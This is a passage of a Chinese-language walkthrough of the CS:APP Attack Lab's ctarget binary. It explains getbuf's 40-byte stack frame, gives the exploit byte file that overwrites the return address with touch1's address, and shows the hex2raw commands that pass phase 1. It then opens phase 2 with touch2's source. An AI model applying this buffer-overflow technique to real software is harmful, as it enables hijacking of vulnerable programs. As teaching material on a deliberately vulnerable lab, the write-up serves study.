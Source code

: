 这个函数分配了一个0x28(即40)字节的栈帧,显然这个栈帧的内容全部是用来存储buf的.

栈帧的结构如下(向下地址减小):

|            ...             |
| :------------------------: |
|      返回地址(8字节)       |
| getbuf的栈帧(即buf,40字节) |

写入到buf时,输入的内容按地址增大方向进入getbuf的栈帧,当内容超过40字节后,继续写入将会覆盖掉返回地址.

所以先随便写入40字节内容,之后再写入touch1的起始地址(8字节)覆盖原先的返回地址就可以了.

```
Dump of assembler code for function touch1:
   0x00000000004017c0 <+0>:	sub    $0x8,%rsp	# touch1的起始地址是0x4017c0
   ...
```

因此有下面的攻击代码:

```
/* exploit.txt */
30 30 30 30 30 30 30 30 /* 30是数字0的ASCII,这个不重要 */
30 30 30 30 30 30 30 30 
30 30 30 30 30 30 30 30 
30 30 30 30 30 30 30 30 
30 30 30 30 30 30 30 30 /* 40个字节 */
c0 17 40 00 00 00 00 00	/* touch1的地址 */
0a	/* 换行符,用来结束输入 */
```

使用下面的指令:

```
./hex2raw < exploit.txt > exploit-raw.txt
cat exploit.txt | ./hex2raw | ./ctarget -q
```

就通过了这一阶段.

#### I.phase 2

这一阶段需要注入一些代码,以将cookie作为参数来执行touch2(unsigned val).

```C
// 地址:0x4017ec
void touch2(unsigned val){
	vphase = 2; /* Part of validation protocol */
	if (val == cookie) {
		printf("Touch2!: You called touch2(0x%.8x)\n", val);
		validate(2);
	} else {
		printf("Misfire: You called touch2(0x%.8x)\n", val);
		fail(2);
	}
	exit(0);
}
```
